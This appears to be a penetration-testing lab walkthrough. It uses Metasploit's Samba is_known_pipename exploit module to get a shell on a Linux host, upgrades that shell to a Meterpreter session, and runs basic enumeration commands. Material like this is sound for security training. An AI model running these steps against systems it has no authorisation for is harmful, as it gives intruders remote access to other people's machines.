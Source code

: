 Use the **Samba is_known_pipename** exploit module to gain initial access:

```bash
use exploit/linux/samba/is_known_pipename
```

Run the exploit to get a **cmd shell session**:

```bash
exploit
```

Check the current working directory:

```bash
pwd
```

Put the session in the background:

```bash
background
```

List all active sessions:

```bash
sessions
```

### Upgrading to Meterpreter Session

To upgrade the **cmd shell session** to a **Meterpreter session**, use the following command:

```bash
sessions -u 1
```

This will upgrade session 1 to a Meterpreter session, which will now be available as session 2.

### Basic Enumeration with the Linux Terminal

Once you have a **Meterpreter session**, you can begin basic system enumeration.

- Check system information:

    ```bash
    sysinfo
    ```

- Check the current user ID:

    ```bash
    getuid
    ```

- Open a Linux shell in the Meterpreter session:

    ```bash
    shell
    ```
